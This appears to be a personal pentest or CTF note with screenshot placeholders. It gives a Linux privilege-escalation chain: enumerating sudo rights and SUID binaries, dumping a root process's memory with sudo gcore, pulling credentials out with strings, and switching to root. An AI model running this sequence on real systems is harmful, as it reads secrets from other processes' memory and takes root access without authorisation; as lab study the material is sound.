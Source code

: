 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
sudo -l
```

![[Pasted image 20221115144913.png]]

```bash - kali
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![[Pasted image 20220407154438.png]]

```bash - kali
ps aux | grep root
```

![[Pasted image 20220407154514.png]]

```bash - kali
sudo -u root /usr/bin/gcore -a -o /home/$USER/output 25737
```

```bash - kali
strings /home/$USER/output.25737
```

```bash - kali
su root
```


